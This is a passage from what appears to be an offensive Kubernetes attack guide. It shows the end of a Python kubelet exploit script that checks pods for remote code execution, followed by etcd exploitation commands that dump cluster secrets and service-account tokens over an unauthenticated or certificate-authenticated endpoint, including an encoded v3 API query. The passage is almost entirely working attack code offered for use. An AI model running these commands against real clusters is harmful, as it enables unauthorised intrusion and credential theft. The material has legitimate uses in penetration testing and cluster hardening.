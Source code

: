 ```python
                }
                
                exec_resp = session.get(exec_url, params=params)
                if exec_resp.status_code == 200:
                    print(f"[!] RCE possible in {namespace}/{pod_name}/{container_name}")
                    
    except Exception as e:
        print(f"[-] Error: {e}")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 kubelet_exploit.py <target>")
        sys.exit(1)
    exploit_kubelet(sys.argv[1])
```

### etcd Exploitation

#### Direct etcd Access
```bash
# Check etcd version and health
curl -sk https://<target>:2379/version
curl -sk https://<target>:2379/health

# List all keys (if authentication disabled)
etcdctl --endpoints=https://<target>:2379 get / --prefix --keys-only

# Extract sensitive data
etcdctl --endpoints=https://<target>:2379 get /registry/secrets --prefix
etcdctl --endpoints=https://<target>:2379 get /registry/serviceaccounts --prefix

# Modern etcd v3 API
curl -sk https://<target>:2379/v3/kv/range \
  -X POST -H "Content-Type: application/json" \
  -d '{"key":"L3JlZ2lzdHJ5L3NlY3JldHMv","range_end":"L3JlZ2lzdHJ5L3NlY3JldHMw"}'
```

#### Certificate-based Authentication
```bash
# If client certificates are available
etcdctl --endpoints=https://<target>:2379 \
  --cert=client.pem --key=client-key.pem --cacert=ca.pem \
  get /registry/secrets --prefix

# Extract and decode Kubernetes secrets
etcdctl get /registry/secrets/default/mysecret --print-value-only | \
  python3 -c "import sys, yaml; print(yaml.safe_load(sys.stdin))"
```

---

## Container Breakout and Privilege Escalation
